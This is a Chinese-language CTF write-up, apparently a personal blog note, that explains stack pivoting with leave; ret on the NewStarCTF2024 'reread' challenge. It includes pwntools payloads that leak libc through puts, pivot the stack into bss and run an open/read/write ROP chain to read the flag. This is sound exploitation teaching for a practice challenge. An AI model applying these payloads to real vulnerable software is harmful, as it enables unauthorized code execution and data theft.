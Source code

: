 ```yaml
---
title: 栈迁移
date: 2024-11-24 08:39:04
tags:
categories:
- PWN
---
```

栈迁移多见于一些栈溢出长度不足以做更多的事，溢出长度仅仅能覆盖返回地址附近的情况。
要使用栈迁移则首先需要了解`leave; ret`指令。
便于理解的来说，`leave`指令等价于
```armasm
mov esp, ebp  ; 恢复栈指针
pop ebp       ; 恢复基址指针
```
`ret`指令等价于
```armasm
pop eip ; 这样写是方便理解，实际上不存在 pop eip 这个汇编指令
```
用32位程序的例子展示一下栈迁移的作用
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020241120090206.png)
这是初始时的栈空间，一半来说函数正常结束便会执行一次`leave; ret`指令，比如例子中执行后便会将`exp`移至`0xffffce28`处，`esp`移至`0xffffce08`处
但我们若是将原本`exp`处指向的地址更改了，再调用`leave; ret`指令，便可以控制`ebp`去往我们想让他去的地方，同时将原本的返回函数改为`leave; ret`指令，则可以使`esp`移至我们指向的地址执行指令。
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020241120090544.png)
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020241120090753.png)
注意，在上面的图例中，第二次执行`leave; ret`指令后发现`ebp`不见了，这是因为例子中`0xffffcdc8`指向的地址是未知的，实际应用时应注意。
这里用一道例题来举例。[NewStarCTF2024-Week4-reread](https://ctf.xidian.edu.cn/training/14?challenge=635)
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020241120091518.png)
可以看到是有一个栈溢出贴脸的，但溢出长度只有`0x10`，仅仅的能覆盖返回函数，所以要用到栈迁移。
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020241120092031.png)
按照之前分析的，将`rbp`指向的返回地址更换为我们想要的地址，这里是一段空的`bss`地址，同时将返回函数替换为`read`函数的地址再执行一遍来读入
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020241120092213.png)
可以看到执行完自带的`leave; ret`后，`rbp`的地址已经变为我们设定的`bss`段的地址
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020241120092254.png)
第二次执行`read`时便是向我们指向的地址读入数据。

接下来需要构造泄露libc基址的ROP链
```
payload2 = p64(bss2) + p64(pop_rdi) + p64(elf.got['puts']) + p64(elf.plt['puts']) + p64(vuln_read)

payload2 += p64(bss - 0x28) + p64(leave_ret)

p.send(payload2.rjust(0x50, b'a'))
```
这里解释一下这段`payload`为什么如此构造
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020241120093135.png)
这里我们相当于向`0x404120`的`bss`段注入了这些内容，在注入完这些内容后会执行`read`其自带的`leave; ret`函数
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020241120093358.png)
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020241120093403.png)
执行完`leave`后会发现`rbp`和`rsp`分别移动到了0x404138与0x404168处
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020241120093506.png)
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020241120093543.png)
继续执行`ret`后进入我们设定的返回函数，即`leave; ret`指令
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020241120093813.png)
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020241120093836.png)
执行完第二次`leave; ret`后会发现程序按照我们希望的进入了泄露`puts`函数地址的段。
这部分详细解释一下，红色部分是上面第一次`leave; ret`后我们将`rbp`移到的空白`bss`段，黄色部分则相当于返回函数，`vuln`中`read`函数的读入是
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020241120094153.png)
所以是从`0x404120`开始一直读到`0x404170`为止，覆盖了返回地址和返回函数。
将返回地址设置为`bss- 0x8 * 5` 即为`0x404138`是我们泄露地址的ROP链的前一段，至于为什么将`0x404138`设为另一段`bss`地址`bss2`等会说。这里执行完`read`自带的`leave; ret`后会开始执行返回函数设置的`leave; ret`，将`rbp`再次转移到我们设置的`bss2`段，`rsp`则开始执行泄露`puts`函数地址的ROP链来获取libc基址。
现在说一下为什么要设置一个`bss2`，如果不设置的话，用一段`deadbeef`覆盖的话第二次`leave; ret`后`rbp`的位置就会无法找到，但我们目前仅仅获取了libc基址，后面仍需读入`orw`的ROP链来获取flag，这里设置`bss2`就是开辟一个新的空间来读入新的`payload`。

接下来则重复上面的操作，因为orw的ROP链一般较长，0x50不够，我们还需手动构造一个新的read函数来读入我们的ROP链，然后用新的read来读入ROP链。
```python
# 开辟新的bss段，用于存放ROP链，避免与前面冲突
payload3 = b'a' * (0x40) + p64(bss2 + 0x100) + p64(vuln_read)
p.send(payload3)
buf = bss2 + 0x100 - 0x8 * 1
read_addr = libc_base + lib.symbols['read']

payload4 = p64(pop_rdi) + p64(0) + p64(pop_rsi) + p64(buf) + p64(pop_rdx_r12) + p64(0x200) + p64(0) + p64(read_addr)
payload4 += p64(bss2 + 0x100 - 0x8 * 9) + p64(leave_ret)
p.send(payload4.ljust(0x50, b'a'))

# gdb.attach(p)
# open,dup2,read,write
payload5 = flat([
    pop_rdi, buf,
    pop_rsi, 0,
    pop_rdx_r12, 0, 0,
    pop_rax, 2,
    syscall,
    pop_rdi, 3,
    pop_rsi, 0,
    pop_rax, 33,
    syscall,
    pop_rdi, 0,
    pop_rsi, elf.bss(0x20),
    pop_rdx_r12, 0x100, 0,
    pop_rax, 0,
    syscall,
    pop_rdi, 1,
    pop_rsi, elf.bss(0x20),
    pop_rdx_r12, 0x40, 0,
    pop_rax, 1,
    syscall
])

payload5 = b'./flag\x00\x00' + payload5
p.send(payload5)
```

新的payload3注入的位置就是payload2里设置的bss2的位置
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020241120100910.png)
这里由于构造新read函数的ROP链长度刚好为0x50，我们没有空余空间控制rbp的范围地址，所以在注入payload5时，只能将payload5覆盖原来的位置让esp在leave; ret后直接执行。
执行后便能获取flag。
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020241120101523.png)